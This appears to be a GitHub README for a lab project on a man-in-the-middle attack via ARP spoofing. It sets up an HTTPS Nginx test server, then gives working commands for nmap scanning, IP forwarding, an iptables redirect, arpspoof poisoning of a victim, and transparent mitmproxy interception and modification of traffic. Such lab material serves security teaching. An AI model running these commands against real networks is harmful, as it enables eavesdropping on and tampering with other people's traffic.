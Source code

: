 # Man-in-the-Middle Attack via ARP Spoofing

This project explores Man-in-the-Middle attack techniques using ARP spoofing to intercept, analyze, and modify network traffic between a client and a server.

- [Server Configuration](#1-Server-Configuration)
- [MitM Configuration](#2-MitM-Configuration)

## 1. Server Configuration

### 1.1 Installing Nginx

```
$ sudo apt install nginx -y
```

### 1.2 Generating a Self-Signed Certificate

Create a directory for SSL certificates:

```
$ sudo mkdir -p /etc/nginx/ssl
```

Generate a self-signed certificate using OpenSSL:

```
$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
-keyout /etc/nginx/ssl/nginx-selfsigned.key \
-out /etc/nginx/ssl/nginx-selfsigned.crt
```

**Parameter Descriptions**:

- `-x509`: creates a certificate in x509 format.
- `-nodes`: disables passphrase request for the private key.
- `-days 365`: sets the certificate validity period to 365 days.
- `-newkey rsa:2048`: generates a new 2048-bit RSA key.

### 1.3 Configuring Nginx

```
$ sudo nano /etc/nginx/sites-available/default
```

Add the following configuration, replacing `<IP_addr>` with the server’s IP address:

```nginx
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name <IP_addr>;

    # Redirect from HTTP to HTTPS
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    server_name <IP_addr>;

    ssl_certificate /etc/nginx/ssl/nginx-selfsigned.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx-selfsigned.key;

    location / {
        proxy_pass http://localhost:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

### 1.4 Verifying and Restarting Nginx

Verify the configuration and restart the service:

```
$ sudo nginx -t
$ sudo systemctl restart nginx
```

### 1.5 Starting Docker Containers

Clone the repository and start the containers:

```
$ git clone https://github.com/SenapeDev/MitM-ARPspoofing.git
$ cd server
$ docker compose up --build -d
```

### 1.6 Managing HTTPS Mode

To enable or disable HTTPS using the Makefile:

```
$ make https-on
$ make https-off
```

- `https-on`: enables redirection to HTTPS.
- `https-off`: disables HTTPS redirection, returning to HTTP.

---

## 2. MitM Configuration

### 2.1 Installing Nmap

```
$ sudo apt install nmap -y
```

### 2.2 Scanning the Local Network with Nmap

To find the IP address of the host running the website within the local network, execute:

```
$ nmap -p 80,443 --open -sV <IP_range>
```

**Parameter Descriptions**:

- `-sV` detects active services and attempts to identify the web application in use.
- `--open` shows only hosts with open ports.
- `<IP_range>` is the IP address range for scanning.

### 2.3 Enabling Packet Forwarding

Enable packet forwarding to allow packet transmission between the server and the victim:

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 2.4 Configuring iptables for Traffic Redirection

Redirect HTTP traffic to port 8080 (used by `mitmproxy`):

```
$ sudo iptables -t nat -A PREROUTING -p tcp -s <src_IP> --dport 80 -j REDIRECT --to-port 8080
```

This command uses the `nat` table in iptables to redirect traffic intended for port 80 on the specified address to port 8080. These changes are temporary and will be removed upon reboot.

### 2.5 Checking Set Rules

To check active `iptables` rules:

```
$ sudo iptables -t nat -L -v -n
```

The command lists all rules in the iptables `nat` table with details (`-v`) and without name resolution (`-n`).

### 2.6 Installing dsniff

Install `dsniff` to perform ARP spoofing:

```
$ sudo apt install dsniff
```

### 2.7 Performing ARP Poisoning

Use `arpspoof` to trick the victim into thinking they are communicating with the server:

```
# arpspoof -i <interface> -t <src_IP> <dest_IP>
```

This command sends ARP packets to the victim’s IP address (`<src_IP>`) to set the `<dest_IP>` (the impersonated server) as the sender, using the specified network interface (`<interface>`).

### 2.8 Installing Wireshark

To capture and analyze network traffic, install Wireshark:

```
$ sudo apt install wireshark -y
```

### 2.9 Capturing Packets with Wireshark

Start Wireshark to capture traffic:

```
$ sudo wireshark
```

### 2.10 Installing mitmproxy

Install `mitmproxy` to manipulate requests:

```
$ pip install mitmproxy
```

### 2.11 Installing the Script for mitmproxy

```
$ git clone https://github.com/SenapeDev/MitM-ARPspoofing.git
```

### 2.12 Intercepting and Modifying Requests with mitmproxy

Run `mitmproxy` in transparent mode to intercept and modify HTTP traffic:

```
$ cd mitm
$ mitmproxy -s main.py --mode transparent
```

This command starts `mitmproxy` in transparent mode (`--mode transparent`) to intercept traffic without any configuration on the client.
